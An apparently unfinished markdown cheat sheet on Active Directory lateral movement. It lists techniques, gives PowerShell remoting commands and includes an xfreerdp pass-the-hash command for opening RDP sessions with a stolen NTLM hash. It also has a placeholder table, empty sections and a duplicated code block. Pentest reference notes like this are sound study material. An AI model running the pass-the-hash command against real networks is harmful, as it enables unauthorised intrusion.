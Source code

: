 # Active Directory Lateral Movement

| TTP         | Description |
| ----------- | ----------- |
| Header      | Title       |
| Paragraph   | Text        |





- Windows Services
- WinRM
- PsExec
- RDP
- WMI
- DCOM
- Webclient
- CrackMapExec
- MSSQL


## Windows Services



## PowerShell Remoting
Enable PowerShell Remoting on current Machine (Needs Admin Access)

```powershell
Enable-PSRemoting
```

Entering or Starting a new PSSession (Needs Admin Access)

```powershell
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

```powershell
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

## Lateral Movement usind RDP
If we have a NTLM hash we can have an RDP session

### xFreeRDP

```bash
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>
```


```powershell
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```





